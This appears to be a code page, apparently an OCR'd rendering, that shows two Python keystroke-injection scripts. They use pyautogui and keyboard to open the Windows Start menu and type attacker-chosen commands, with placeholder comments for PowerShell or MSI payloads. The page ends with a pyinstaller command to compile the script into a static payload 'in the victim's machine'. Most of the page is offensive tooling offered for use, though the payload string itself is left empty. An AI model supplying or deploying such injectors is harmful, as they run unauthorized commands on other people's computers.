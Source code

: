 #### `pyautogui`

```python
import pyautogui
from time import sleep

def inject_keystrokes() -> None:
	# Append @ as a prefix in order to execute commands.
	# Add payload here. Such as, PowerShell, MSI, etc
	commands = "@"

	pyautogui.FAILSAFE = False
	
	# Open the Start Menu
	pyautogui.press("win")
	sleep(2)

	pyautogui.write(commands, interval=.025)
	pyautogui.press("enter")

if __name__ == '__main__':
	inject_keystrokes()
```

#### `keyboard`

```python
from keyboard import press_and_release, write
from time import sleep

def inject_keystrokes() -> None:
	# Append @ as a prefix in order to execute commands.
	# Add payload here. Such as, PowerShell, MSI, etc
	commands = "@"

	# Win
	press_and_release("left windows")
	sleep(0.5)
	
	# Inject commands then return
	write(commands)
	press_and_release("enter")
	sleep(0.5)

if __name__ == '__main__':
	inject_keystrokes()
```

Compile into a static payload when deploying it in the victim's machine.

```
$ pyinstaller -w -F payload.py
```